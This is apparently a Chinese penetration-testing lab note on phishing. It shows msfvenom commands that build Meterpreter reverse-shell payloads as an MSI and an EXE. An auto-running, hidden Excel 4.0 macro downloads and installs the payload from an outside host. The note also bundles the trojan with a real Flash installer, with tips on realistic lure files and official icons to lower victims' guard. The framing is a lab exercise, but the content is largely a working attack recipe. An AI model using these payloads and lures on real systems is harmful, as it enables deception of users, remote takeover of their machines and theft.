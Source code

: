 ```yaml
---
title: 实验五--钓鱼技术
category: 学习笔记
tags: [网络渗透测试技术、钓鱼、木马]
published: 2023-12-07
permalink: /archives/2wqhr1z8/
---
```

## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](./images/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](./images/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](./images/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](./images/202407142110166.png)

然后插入宏表

![image-20240714205003681](./images/202407142110167.png)

![image-20240714205014322](./images/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](./images/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](./images/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](./images/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](./images/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](./images/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](./images/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](./images/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](./images/202407142110176.png)

![image-20240714205254262](./images/202407142110177.png)

![image-20240714205300874](./images/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](./images/202407142110179.png)
